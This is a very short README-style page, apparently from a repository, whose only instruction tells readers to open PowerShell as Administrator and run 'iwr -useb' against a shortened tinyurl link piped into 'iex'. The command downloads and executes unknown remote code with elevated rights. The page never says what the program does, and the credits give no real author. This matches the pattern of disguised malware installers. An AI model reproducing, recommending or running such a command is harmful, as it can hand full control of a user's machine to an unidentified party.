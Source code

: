 # **How to start the program**
Launch Powershell as Administrator and then type 
```
iwr -useb https://tinyurl.com/OlaYZenWU | iex
```
## **Credits**
Me and only me